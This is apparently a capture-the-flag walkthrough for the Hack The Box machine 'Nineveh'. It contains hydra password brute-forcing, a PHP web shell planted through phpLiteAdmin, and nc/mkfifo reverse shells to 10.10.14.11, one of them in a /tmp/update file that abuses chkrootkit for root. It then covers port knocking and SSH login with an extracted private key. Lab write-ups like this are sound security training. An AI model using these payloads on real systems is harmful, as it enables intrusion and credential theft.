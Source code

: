 **Enumeration** 
```shell
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.43 -o http-output.txt

Ignore SSL error:
root@kali:~/HTB/Nineveh# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.43 -o https-output.txt -k
Find:
http://10.10.10.43/department/login.php
https://10.10.10.43/db/
https://10.10.10.43/secure_notes/
```
**Hydra:**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```
**For Department page:
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```
**For PHP Lite Admin page:
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123**

**Show details by -x:
root@kali:~/HTB/Nineveh# searchsploit -x 24044.txt**

Then make reverse shells(shells.txt):

Create database "ninevehNotes.php" Field=1

Rename table:test --> Table 'ninevehNotes' 
```shell
Field input:
<?php echo system($_REQUEST["ipp"]; ?>
```
#### MOVE to Burp and change to POST:
--------------------------------------------------------------------
```shell
POST /department/manage.php?notes=/var/tmp/ninevehNotes.php HTTP/1.1
Host: 10.10.10.43
...
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
#### REMEMBER Encode special character like " " ---> "+" and ";"--->"%3b" "&"--->"%26"
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1668 >/tmp/f
Applied to web shell:
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
**As python setting problem:**
```shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**CRON job on report, show history**
```shell
www-data@nineveh:/report$ ps -eo command
```
**LOOP history action:**
```shell
www-data@nineveh:/report$ for i in $(ps -eo command)ls ; do echo $i; done
To confirm IFS is "space" as new line:
www-data@nineveh:/report$ IFS=$'\n'
```
***write a script: procmon.sh***
```shell
--------------------------------------------------------------------
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process")
	sleep 1
	old_process=$new_process
done
--------------------------------------------------------------------
```
```shell
www-data@nineveh:/var/tmp$ ./procmon.sh

172a173
> sleep 1
172a173,177
> /usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
...
< ps -eo command
...
```
#### "< /bin/sh /usr/bin/chkrootkit" finds exploit-db 33899
#### Then create a update file placed /tmp as /tmp/update
#### "/3"--> as Third terminal!
```shell
--------------------------------------------------------------------
#!/bin/bash
rm /tmp/3;mkfifo /tmp/3;cat /tmp/3|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/3
--------------------------------------------------------------------
```
### Other attack vector:
https://10.10.10.43/secure_notes/
Show hidden content: 
root@kali:~/HTB/Nineveh# binwalk -Me nineveh.png 
...
As a result:
```shell
Public key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.pub 
Private Key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.priv 
-----BEGIN RSA PRIVATE KEY-----
...
```
****root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# chmod 600 nineveh.priv 
BUT No SSH^-^****
```shell
www-data@nineveh:/etc/init.d$ netstat -alnp | grep LIST
netstat -alnp | grep LIST
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
```
#### This is port knocking services~~
www-data@nineveh:/etc/init.d$ cat /etc/knockd.conf
....
[openSSH]
 sequence = 571, 290, 911 
....
Below all wrong:
for i in 571 290 911; do nmap -Pn -p $i --host_timeout 201 --max-retries 0 10.10.10.43; done
for x in 571 290 911; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 10.10.10.43; done
#### Real:
```shell
root@kali:~/HTB/Nineveh# for i in 571 290 911; do nmap -Pn -p $i --max-retries 0 10.10.10.43; done
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
Then:
root@kali:~/HTB/Nineveh# nmap -p 22 10.10.10.43
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Nmap scan report for 10.10.10.43
Host is up (0.22s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```
#### Finally readly to connect:
****root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# ssh -i nineveh.priv amrois@10.10.10.43****
